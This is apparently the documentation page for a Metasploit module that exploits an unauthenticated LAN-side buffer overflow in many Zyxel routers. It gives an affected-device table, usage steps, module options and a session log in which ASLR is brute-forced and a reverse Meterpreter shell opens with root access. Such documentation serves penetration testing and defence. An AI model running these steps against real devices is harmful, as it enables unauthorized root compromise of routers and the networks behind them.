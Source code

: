 ## Vulnerable Application

This module exploits a buffer-overflow in multiple Zyxel devices. The vulnerabilitiy stems from missing string length checks.
The vulnerability can only be exploited from the LAN side, but does not require authentication. As ASLR is activated, the libc address will be bruteforced.
Thus the webserver will crash until successfull exploitation. On average this process takes 20 minutes.

This vulnerability was discovered by Steffen Robertz, Gerhard Hechenberger, Stefan Viehboeck and Thomas Weber of the SEC Consult Vulnerability Lab in Vienna.
The full writeup of all vulnerabilities is available here: [https://sec-consult.com/vulnerability-lab/advisory/multiple-critical-vulnerabilities-in-multiple-zyxel-devices/]

## Vulnerable Application

| Device       | Firmware  |
| ------------ | --------- |
| AMG1302-T11C | EOL       |
| VMG3925-B10C | EOL       |
| VMG8924-B10D | EOL       |
| VMG1312-B10D | EOL       |
| VMG3312-T20A | EOL       |
| VMG3625-T20A | EOL       |
| VMG3925-B10B | EOL       |
| VMG3925-B10C | EOL       |
| VMG3925-B30C | EOL       |
| VMG3926-B10A | EOL       |
| VMG5313-B10B | EOL       |
| VMG5313-B30B | EOL       |
| VMG8623-T50A | EOL       |
| VMG8823-B10B | EOL       |
| VMG8823-B30B | EOL       |
| VMG8823-B50B | EOL       |
| VMG8823-B60B | EOL       | 
| VMG8924-B10D | EOL       |
| VMG8924-B30D | EOL       |
| PMG5317-T20A | EOL       |
| DX3301-T0 | V5.50(ABVY.3)C0 |
| DX5401-B0 | V5.17(ABYO.1)C0 |
| EMG3525-T50B | EMEA - V5.50(ABPM.6)C0 |
| EMG3525-T50B | S. America - V5.50(ABSL.0)b12 |
| EMG5523-T50B | EMEA - V5.50(ABPM.6)C0 |
| EMG5523-T50B | S. America - V5.50(ABSL.0)b12 |
| EMG5723-T50K | V5.50(ABOM.7)C0 |
| EX3301-T0 | V5.50(ABVY.3)C0 |
| EX5401-B0 | V5.17(ABYO.1)C0 |
| EX5501-B0 | V5.17(ABRY.2)C0 |
| LTE3301-PLUS | V1.00(ABQU.3)C0 |
| LTE7240-M403 | V2.00(ABMG.4)C0 |
| VMG1312-T20B | V5.50(ABSB.5)C0 |
| VMG3625-T50B | V5.50(ABPM.6)C0 |
| VMG3927-B50A | V5.17(ABMT.6)C0 |
| VMG3927-B60A | V5.17(ABMT.6)C0 |
| VMG3927-T50K | V5.50(ABOM.7)C0 |
| VMG4005-B50A | V5.15(ABQA.2)C0 |
| VMG8623-T50B | V5.50(ABPM.6)C0 |
| VMG8825-B50A | V5.17(ABMT.6)C0 |
| VMG8825-B50B | V5.17(ABNY.7)C0 |
| VMG8825-B60A | V5.17(ABMT.6)C0 |
| VMG8825-B60B | V5.17(ABNY.7)C0 |
| VMG8825-T50K | V5.50(ABOM.7)C0 |
| XMG3927-B50A | V5.17(ABMT.6)C0 |
| XMG8825-B50A | V5.17(ABMT.6)C0 |
| VPN2S | V1.20(ABLN.2)_00210319C1 |
| AX7501-B0 | V5.17(ABPC.1)C0 |
| EP240P | V5.40(ABVH.1)C0 |
| PMG5317-T20B | V5.40(ABKI.4)C0 |
| PMG5617GA | V5.40(ABNA.2)C0 |
| PMG5622GA | V5.40(ABNB.2)C0 |
| WX3100-T0 | V5.50(ABVL.1)C0 |
| WX3401-B0 | V5.17(ABVE.1)C0 |
| WSQ50 (Multy X) | V2.20(ABKJ.7)C0 |
| WSQ60 (Multy Plus) | V2.20(ABND.8)C0 |

## Verification Steps
 Follow these steps to exploit the target:
 
  1. Connect to a target on the LAN interface
  2. Start msfconsole
  3. Do: ```use exploit/linux/misc/zyxel_multiple_devices_zhttp_lan_rce```
  4. Set RHOST, LHOST and SRVHOST
  5. Do ```check```
  6. Do: ```run```
  7. You should get a shell. On average this will take 20 minutes.
## Options
```
Module options (exploit/linux/misc/zyxel_multiple_devices_zhttp_lan_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host
   

Payload options (linux/armle/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```



## Scenarios
```
msf6 > use exploit/linux/misc/zyxel_multiple_devices_zhttp_lan_rce
[*] Using configured payload linux/armle/meterpreter/reverse_tcp
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > set LHOST XXX.XXX.XXX.XXX
LHOST => XXX.XXX.XXX.XXX
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > set RHOSTS XXX.XXX.XXX.XXX
RHOSTS => XXX.XXX.XXX.XXX
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > check
[+] XXX.XXX.XXX.XXX:80 - The target is vulnerable.
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > set SRVHOST XXX.XXX.XXX.XXX
SRVHOST => XXX.XXX.XXX.XXX
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > run

[*] Started reverse TCP handler on XXX.XXX.XXX.XXX:4444
[*] Attempting to exploit VMG3312-T20A <= EOL
[*] Starting up our web service on XXX.XXX.XXX.XXX:8080 ...
[*] Using URL: http://XXX.XXX.XXX.XXX:8080/o
[*] Going to bruteforce ASLR, this will take a while...
[*] Trying to overflow the buffer, attempt 1
[*] Trying to overflow the buffer, attempt 2
[*] Trying to overflow the buffer, attempt 3
[*] Trying to overflow the buffer, attempt 4
[*] Trying to overflow the buffer, attempt 5
[*] Trying to overflow the buffer, attempt 6
[*] Trying to overflow the buffer, attempt 7
[*] Trying to overflow the buffer, attempt 8
[*] Trying to overflow the buffer, attempt 9
[*] Trying to overflow the buffer, attempt 10
[...]
[*] Trying to overflow the buffer, attempt 135
[*] Trying to overflow the buffer, attempt 136
[*] Trying to overflow the buffer, attempt 137
[*] Trying to overflow the buffer, attempt 138
[*] Trying to overflow the buffer, attempt 139
[+] XXX.XXX.XXX.XXX:80 - Sending executable to the router
[+] XXX.XXX.XXX.XXX:80 - A shell should connect soon!
[*] Sending stage (908480 bytes) to XXX.XXX.XXX.XXX
[*] Meterpreter session 1 opened (XXX.XXX.XXX.XXX:4444 -> XXX.XXX.XXX.XXX:55253) at 2022-07-24 19:03:41 +0200
[*] Server stopped.

meterpreter > shell
Process 9871 created.
Channel 1 created.
id
uid=0(root) gid=0
```
